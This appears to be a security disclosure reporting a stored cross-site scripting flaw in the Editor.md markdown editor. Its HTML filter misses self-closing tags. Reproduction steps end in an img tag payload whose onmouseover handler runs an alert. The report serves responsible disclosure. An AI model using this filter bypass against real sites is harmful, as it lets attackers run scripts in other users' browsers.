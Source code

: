 # Description

I would like to report XSS vulnerability in pandao/editor.md
Implemented Html tag filtering doesn't work for self clossing tags, leading to posible code injection on this elements

# Module

module name: Editor.md
version: all versions

# Module Description

Editor.md : The open source embeddable online markdown editor (component), based on CodeMirror & jQuery & Marked.

# Weekly Downloads

1,417

# Vulnerability Description

XSS in editor.md is avoided by using filterHTMLTags which uses a RegExp to replace possible dangerous content, unfortunetly the RegExp doesn't handle self clossing tags, making it possible to execute code

# POC

Insert in editor a self clossing element with event to execute code

1. Download editor.md
   `git clone https://github.com/pandao/editor.md`
2. Go into directory
   `cd editor.md`
3. Make the content available with any web server
   `php -S localhost:8080`
4. open http://localhost:8080/examples/html-tags-decode.html
5. Filter code execution by clicking on Filter style,script,iframe|onclick,title,onmouseover,onmouseout,style
   (No code should be executed with this Filter)
6. Insert element with payload usig the editor (New line is important):
   ````
   <img src="https://picsum.photos/200" style="position:fixed;left:0;top:0;width:200px;height:200px;z-index:100" onmouseover="alert('img execution...')"/>
   sss
   ```
   ````
7. Code will be executed when passing the mouse over the image

# Impact

This could have enabled an attacker to execute code remotely if the content of the editor is saved and then retrieved by some other user
